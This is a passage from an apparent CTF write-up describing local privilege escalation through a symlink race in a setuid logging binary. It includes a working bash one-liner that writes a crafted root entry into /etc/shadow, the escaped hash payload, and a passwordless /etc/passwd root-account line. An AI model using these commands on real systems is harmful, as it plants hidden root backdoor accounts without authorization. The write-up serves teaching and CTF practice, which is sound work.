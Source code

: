 ```bash
touch /tmp/ssss.txt; \
( sleep 1; rm /tmp/ssss.txt; /usr/local/bin/cake_logger -link /etc/shadow /tmp/ssss.txt ) & \
/usr/local/bin/cake_logger /tmp/ssss.txt "ghost:$y$j9T$f3q8/kACKQ660FWsI5BjS1$7sMUVKVQm8EnKF3zP44z.kURpvS.5GS6HO6ukI4/Lh3:20323:0:99999:7:::"
```

At first glance, this looked fine. I was injecting my **crafted hash** straight into `/etc/shadow`.
But something wasn’t working. I spent nearly **three hours debugging** why login kept failing. At some point I thought maybe the hash was broken, maybe the binary was mangling things, maybe the timing was off.

Then I tested everything on my local machine. And boom, the culprit hit me in the face:


👉 **Every `$` sign in the shadow hash had to be escaped with a backslash `\`**, otherwise the binary treated it wrong and the line became corrupted.

So the correct payload had to look like this:

```bash
ghost:\$y\$j9T\$f3q8/kACKQ660FWsI5BjS1\$7sMUVKVQm8EnKF3zP44z.kURpvS.5GS6HO6ukI4/Lh3:20323:0:99999:7:::
```

Painful, but also kind of funny, the classic “one missing character ruins everything” moment.

Once I fixed that, the ghost account worked flawlessly.

## The “I’m Dumb” Realization

After all that pain of crafting hashes, escaping `$` signs, and debugging why the login wasn’t working… I realized something that made me laugh at myself.

I **didn’t even need to mess with `/etc/shadow` in the first place**.

Why? Because in `/etc/passwd`, if you just put an empty field instead of an `x`, it means the account has **no password at all**. Which means you can log in straight away without touching shadow.

So instead of:

```bash
ghost:x:0:0::/root:/bin/bash
```

I could have just added:

```bash
ghost::0:0::/root:/bin/bash
```

That’s it. No password, no hashes, no escaping `$` characters, no `/etc/shadow` injection. Just a root shell waiting for me.

At that point, I felt dumb but also relieved — sometimes the simplest path is right there in front of you, and you only notice it after hours of overcomplicating things. Classic CTF lesson.

## Conclusion - Root at Last 🏆
